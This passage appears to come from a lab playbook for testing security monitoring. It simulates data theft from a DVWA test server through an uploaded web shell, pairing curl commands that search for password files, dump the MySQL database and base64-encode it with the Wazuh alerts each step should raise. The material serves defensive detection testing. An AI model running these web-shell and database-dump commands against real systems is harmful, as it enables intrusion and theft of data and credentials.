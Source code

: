 **Expected Detections:**

- PowerShell execution
- AD enumeration commands
- Windows Event 4103 (PowerShell execution)
- Wazuh Rule: 91533 (PowerShell suspicious activity)
- Alert Level: High

---

## Scenario 4: Data Exfiltration

### Objective

Simulate data theft techniques and test data loss prevention capabilities.

### Target Systems

- **All systems**: Focus on sensitive data locations

### Attack Timeline

**Duration**: 20-30 minutes  
**Complexity**: Intermediate  
**MITRE ATT&CK Techniques**: T1005, T1041, T1048, T1567

### Phase 1: Data Discovery (10 minutes)

#### 1.1 Sensitive File Search

```bash
# Search for sensitive files
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=find /var/www -name '*.sql' -o -name '*.bak' -o -name '*password*'"
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=grep -r 'password' /var/www/html/ | head -10"
```

**Expected Detections:**

- File system enumeration
- Sensitive file access
- Wazuh Rule: 40107 (Data discovery)
- Alert Level: Medium

### Phase 2: Data Exfiltration (10 minutes)

#### 2.1 Database Dump

```bash
# MySQL database dump
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=mysqldump -u dvwa -ppassword dvwa > /tmp/database_dump.sql"

# Compress and encode
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=gzip /tmp/database_dump.sql"
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=base64 /tmp/database_dump.sql.gz > /tmp/encoded_data.txt"
```
